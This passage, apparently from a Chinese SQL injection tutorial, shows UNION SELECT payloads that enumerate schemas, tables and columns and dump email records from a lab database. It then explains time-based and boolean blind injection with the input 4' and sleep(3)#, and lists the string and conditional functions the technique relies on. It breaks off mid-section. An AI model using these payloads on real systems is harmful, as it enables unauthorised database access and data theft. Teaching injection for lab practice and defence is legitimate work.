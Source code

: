 |     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```sql<br>// 库名<br>union select 1,group_concat(schema_name),3 from information_schema.schemata<br><br>union select 1,(select schema_name from information_schema.schemata limit 0,1),3<br><br>// 表名<br>union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'<br><br>// 列名<br>union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='emails'<br><br>// 数据<br>union select 1,group_concat(id,email_id),3 from security.emails<br>``` |

## [](#5-%E6%97%B6%E9%97%B4%E5%9E%8B%E7%9B%B2%E6%B3%A8--%E5%B8%83%E5%B0%94%E5%9E%8B%E7%9B%B2%E6%B3%A8)5 时间型盲注 & 布尔型盲注

盲注是注入的一种，指的是在不知道数据库返回值的情况下对数据中的内容进行猜测，实施 SQL 注入。盲注一般分为布尔盲注和基于时间的盲注和报错的盲注。

> **时间型**：通过注入特定语句，根据页面请求的物理反馈，来判断是否注入成功，如：在 SQL 语句中使用 sleep() 函数看加载网页的时间来判断注入点。
> 
> **布尔型**：页面只返回 True 和 False 两种状态 (类型) 页面。利用页面返回不同，逐个猜解数据。

适用场景：通常无法从显示页面上获取执行结果，甚至连注入语句是否执行都无从得知。

### [](#51-%E5%8E%9F%E7%90%86%E7%A4%BA%E6%84%8F)5.1 原理示意

`select * from user where id = '?'`

`?` 为用户输入，替代为：`4' and sleep(3)#`

实际执行的 SQL 语句：`select * from user where id = '4' and sleep(3)#`

当 ID = 4 存在时，sleep 3 秒

当 ID = 4 不存在时，直接返回

整条拼接出来的 SQL 是正确的就执行 sleep，前面错误（不存在），sleep(3) 不执行

### [](#52-%E5%B8%B8%E7%94%A8%E5%87%BD%E6%95%B0)5.2 常用函数

#### [](#521-%E7%BC%96%E7%A0%81%E8%BD%AC%E6%8D%A2%E5%87%BD%E6%95%B0)5.2.1 编码转换函数

`ord('a')`：将字符转化为 ascii 码

`ascii('a')`：将字符转化为 ascii 码

`char(97)`：将 ascii 转化为字符

#### [](#522-%E6%9D%A1%E4%BB%B6%E5%88%A4%E6%96%AD%E5%87%BD%E6%95%B0)5.2.2 条件判断函数

`if(exp1, exp2, exp3)`：exp1 成立，执行 exp2，否则执行 exp3。

case when then 函数：`select case when username="admin" then sleep(1) else "error" end from wp_user_`

#### [](#523-%E6%88%AA%E5%8F%96%E5%87%BD%E6%95%B0)5.2.3 截取函数

**substr 函数**

`substr(str, pos, len)`：从 pos 位置开始，截取字符串 str 的 len 长度

`substr(str from pos for length)` ：可以用在过滤了 `,` 的情况

**substring 函数**
